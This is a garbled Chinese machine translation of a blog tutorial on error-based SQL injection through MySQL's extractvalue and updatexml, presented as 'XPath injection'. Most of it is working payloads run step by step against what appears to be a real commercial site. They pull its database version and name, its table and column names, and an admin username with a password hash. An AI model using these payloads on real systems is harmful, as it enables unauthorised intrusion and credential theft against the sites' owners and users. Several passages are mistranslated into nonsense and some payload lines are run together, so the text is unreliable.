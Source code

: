 # 用实际例子理解 XPath 注入。

> 原文：<https://infosecwriteups.com/understanding-xpath-injection-with-practical-examples-6aa81043e4aa?source=collection_archive---------1----------------------->

![](img/6657490df6a4d1155ca06a5b802aff66.png)

在这篇文章中，您将了解 XPath 注入，我会尽可能讲得清楚。

## 什么是 xpath 注入？

> 当用户可控制的数据以不安全的方式合并到 XPath 查询中时，就会出现 XPath 注入漏洞。攻击者可以提供精心编制的输入，以突破其输入出现的数据上下文，并干扰周围查询的结构。
> 
> 根据使用易受攻击的查询的目的，攻击者可能会利用 XPath 注入缺陷来读取敏感的应用程序数据或干扰应用程序逻辑。
> 
> [https://portswigger.net/kb/issues/00100600_xpath-injection](https://portswigger.net/kb/issues/00100600_xpath-injection)
> 
> inyección XPath surgen cuando 的易受攻击性通常是在将 XPath 合并到一个管理器中时使用的。有一次，一名专业人员参加了一个协商会议，并参与了会议结构的调整
> 
> 随后，建议为弱势群体提供咨询服务，帮助他们了解应用程序中的机密数据或应用程序中的干扰因素。
> 
> https://portswigger.net/kb/issues/00100600_xpath-injection

## 检测漏洞

为了检测网站中的这一漏洞，我们首先必须找到它的参数，并在这些参数上测试以下一些符号，以便在其结构中生成一个错误，并找出该网站是否存在或可能存在漏洞:

```
sitio/parametro.php?id=1  -->  sitio/parametro.php?id=-1sitio/parametro.php?id=1  -->  sitio/parametro.php?id=1'
```

Ejemplo:

![](img/4def30f89f128fec65312c870addbe14.png)

在图中我们可以看到，在参数值前添加“-”已经产生了一个错误。

## 爆炸注射

为了利用此漏洞，我们将重点关注两个函数，它们是:extractvalue 和 updatexml

**提取值**

> extractvalue 函数接受两个字符串参数:一段 XML 标记和一个 XPath 表达式(也称为定位器)。它返回第一个文本节点的文本(即 CDDATA)，该文本节点是与 XPath 表达式匹配的一个或多个元素的子元素。
> 
> la función extract value()to dos argumentos de cadena:一个 marcado XML 片段和一个 XPath 表达式(también conocida como localizador)。开发文本(es decir，CDDATA)是文本的基础节点，它是与 XPath 表达式一致的元素的 hijo。
> 
> [https://mariadb.com/kb/en/extractvalue/](https://mariadb.com/kb/en/extractvalue/)

**更新 xml**

> 这个函数用一个新的 xml 片段 new_xml 替换给定 XML 标记片段 xml_targt 的单个部分，然后返回更改后的 XML。xml_target 中被替换的部分与用户提供的 XPath 表达式 xpath_expr 相匹配。如果没有找到与 xpath_expr 匹配的表达式，或者找到了多个匹配项，该函数将返回原始的 xml_target XML 片段。三个参数都应该是字符串。
> 
> 这是一个函数，它包含了一个单独的 xml 片段，目标是一个新的 XML 片段。xml_target 的一部分与 XPath _ express proportional for usual 一致。如果不包含与 xpath_expr 一致的表达式，或者包含与 xml_target original 一致的变量。这是卡德纳斯的三个论点。
> 
> [https://mariadb.com/kb/en/updatexml/](https://mariadb.com/kb/en/updatexml/)

## 数据库版本

现在我们知道了这个站点是易受攻击的，我们也知道了它的功能，我们将开始利用这个漏洞。

要获得该版本，我们将使用以下任何有效载荷:

```
-49+and extractvalue(0x0a,concat(0x0a,(select version())))-49+and updatexml(null,concat(0x0a,(select version())),null)
```

![](img/67066f078bddeb4be15a5437b306a10f.png)

我们可以看到，在 PHP 错误下出现了 Xpath 错误，并给出了我们需要的信息，在这种情况下，数据库的版本是:

```
XPATH syntax error: ' 5.7.34'
```

## 数据库名称

要知道数据库的名称，我们使用以下内容:

```
+and extractvalue(0x0a,concat(0x0a,(select database())))+and updatexml(null,concat(0x0a,(select database())),null)
```

![](img/931873893e9b59c309e9d4ba2c8acb51.png)

在错误中，它向我们显示了数据库的名称:

```
XPATH syntax error: ' stepae_stepliv'
```

## 数据库中表的名称

要获得数据库中表的名称，我们使用以下代码:

```
+and extractvalue(0x0a,concat(0x0a,(select table_name from information_schema.tables where table_schema=database() limit 0,1)))+and updatexml(null,concat(0x0a,(select table_name from information_schema.tables where table_schema=database() limit 0,1)),null)
```

在图像中，我们可以看到结果。

![](img/dae31f21e08f150e3c3c44b7d99807a2.png)

但是如果你注意的话，我们最后使用了“limit 0，1 ”,这是因为 xpath 不允许我们显示多于 1 行。

由于“极限 0，1 ”,我们可以获得更多数据:

```
and updatexml(null,concat(0x0a,(select table_name from information_schema.tables where table_schema=database() limit 0,1)),null) --> XPATH syntax error: ' accesslevel'and updatexml(null,concat(0x0a,(select table_name from information_schema.tables where table_schema=database() limit 1,1)),null) --> XPATH syntax error: ' logintype'and updatexml(null,concat(0x0a,(select table_name from information_schema.tables where table_schema=database() limit 2,1)),null) --> XPATH syntax error: ' menu'and updatexml(null,concat(0x0a,(select table_name from information_schema.tables where table_schema=database() limit 3,1)),null) --> XPATH syntax error: ' menuaccess'and updatexml(null,concat(0x0a,(select table_name from information_schema.tables where table_schema=database() limit 4,1)),null) --> XPATH syntax error: ' payments'
```

在这种情况下，我感兴趣的信息在“用户”中

```
and updatexml(null,concat(0x0a,(select table_name from information_schema.tables where table_schema=database() limit 36,1)),null)XPATH syntax error: ' user'
```

是的，我一张一张地寻找一张有趣的桌子。

## 列名

在这个例子中，我将采用“用户”表。

为了获得这些列，我们使用了以下有效载荷。

```
+and extractvalue(0x0a,concat(0x0a,(select column_name from information_schema.columns where table_schema=database() and table_name= limit 0,1)))+and updatexml(null,concat(0x0a,(select column_name from information_schema.columns where table_schema=database() and table_name= limit 0,1)),null)
```

我们将把十六进制编码的表名放在这里。示例:

```
user = 0x75736572[+and](https://www.step.ae/products.php?cat=-49+and) extractvalue(0x0a,concat(0x0a,(select column_name from information_schema.columns where table_schema=database() and table_name=0x75736572 limit 0,1)))
```

在该表中，我们有以下几列:

```
[+and](https://www.step.ae/products.php?cat=-49+and) extractvalue(0x0a,concat(0x0a,(select column_name from information_schema.columns where table_schema=database() and table_name=0x75736572 limit 0,1))) ---> XPATH syntax error: ' id'[+and](https://www.step.ae/products.php?cat=-49+and) extractvalue(0x0a,concat(0x0a,(select column_name from information_schema.columns where table_schema=database() and table_name=0x75736572 limit 1,1))) ---> XPATH syntax error: ' name'[+and](https://www.step.ae/products.php?cat=-49+and) extractvalue(0x0a,concat(0x0a,(select column_name from information_schema.columns where table_schema=database() and table_name=0x75736572 limit 2,1))) ---> XPATH syntax error: ' password'[+and](https://www.step.ae/products.php?cat=-49+and) extractvalue(0x0a,concat(0x0a,(select column_name from information_schema.columns where table_schema=database() and table_name=0x75736572 limit 3,1))) ---> XPATH syntax error: ' email'[+and](https://www.step.ae/products.php?cat=-49+and) extractvalue(0x0a,concat(0x0a,(select column_name from information_schema.columns where table_schema=database() and table_name=0x75736572 limit 4,1))) ---> XPATH syntax error: ' accesslevel'
```

## 阅读信息

最后，为了访问列中的信息，我们有以下内容:

```
and extractvalue(0x0a,concat(0x0a,(select concat(columna) from tabla limit 0,1)))
```

回到专栏的信息，我对阅读专栏很感兴趣:

```
name y password
```

为了访问此信息，请执行以下操作:

```
and extractvalue(0x0a,concat(0x0a,(select concat(name,'::::',password) from user limit 0,1)))
```

这给了我一个结果:

```
XPATH syntax error: ' Super Admin::::dc8ced213373d2d3'
```

![](img/1e4c89bbb691c94a9cf87f45e7397d54.png)

我希望这种写作是你喜欢的！